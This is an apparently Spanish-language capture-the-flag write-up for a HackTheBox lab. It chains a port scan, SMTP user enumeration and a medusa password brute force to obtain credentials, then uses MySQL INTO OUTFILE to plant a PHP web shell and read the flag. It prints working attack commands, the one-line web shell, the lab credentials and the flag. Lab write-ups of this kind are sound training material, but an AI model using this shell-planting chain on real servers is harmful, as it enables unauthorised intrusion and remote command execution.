

# Práctica Final: Fácil 🐧

Como primer punto tenemos que **enumerar** los puertos disponibles en la máquina objetivo

```bash
nmap -p- -sS -Pn -n <IP> -oN ports
```

**Output**


---

Como no tenemos credenciales de ningún servicio, haremos **fuerza bruta** con las listas que nos dan en `HackTheBox`


---

❗ Es importante hacer **virtual hosting** con el dominio web que nos dan en HackTheBox.

---

Primero, buscamos **nombres de usuarios válidos** en el servicio `SMTP`

```bash
smtp-user-enum -M RCPT -U users.txt  -D inlanefreight.htb -t [IP]
```


<p align="center">
    
</p>

---

Ahora usaremos **medusa** para **hacer fuerza bruta** a la constraseña del usuario encontrado previamente.

```bash
medusa -u fiona@inlanefreight.htb -P rockyou.txt -h [IP] -M smtp
```

<p align="center">
    
</p>

‼ **CREDENCIALES** `fiona:987654321`

---

* Las **crendenciales obtenidas previamente** nos sirven para loguearnos en el servicio `FTP` | `MYSQL` | `HTTPS`

---

1. Nos autenticamos en el **servicio HTTPS**

<p align="center">
    
</p>

* Contenido de archivo **WebServersInfo.txt**

<p align="center">
    
</p>

  + **(1)** Comando usado para testear el **servicio FTP** a través de **HTTPS**
  + **(2)** Ubicación de los archivos del servidor.
  + **(3)** Vemos que en el **servicio web** en el **puerto 80** podemos acceder a los archivos ubicados en `C:\xampp\htdocs\`


---
❕ No encontramos información relevante en el servicio `SMTP` y tampoco en el servicio `FTP`

---


2. Accedemos a la base de datos `MySQL`

```sql
mysql -u fiona -h [IP] -p
```

* Averiguamos si tenemos permisos para subir archivos en el servidor
  
```sql
select variable_name, variable_value from information_schema.global_variables WHERE variable_name="secure_file_priv";
```


<p align="center">
    
</p>


* Si "secure_file_priv" es nulo, significa que no hay ninguna ubicación restringida y se pueden cargar archivos desde cualquier lugar en el sistema de archivos accesible por el servidor de la base de datos.


3. Como ya tenemos la dirección de donde se **alojan los archivos del servicio web** (`C:\xampp\htdocs\`), podemos aprovechar esto para subir una `shell` en php.

```sql
SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "C:\\xampp\\htdocs\\cmd.php";
```

4. Desde el `servicio web` expuesto en el **puerto 80**, accedemos al archivo **cmd.php**

* **URL:** `http://[IP]/cmd.php`

Ya podemos ejecutar comandos, únicamente debemos recordar que estamos en `Windows`

5. Buscamos la flag 🏴

* **URL:** `http://[IP]/cmd.php?cmd=dir%20\Users\Administrator\Desktop`

<p align="center">
    
</p>

**CONTENIDO:** `HTB{t#3r3_4r3_tw0_w4y$_t0_93t_t#3_fl49}`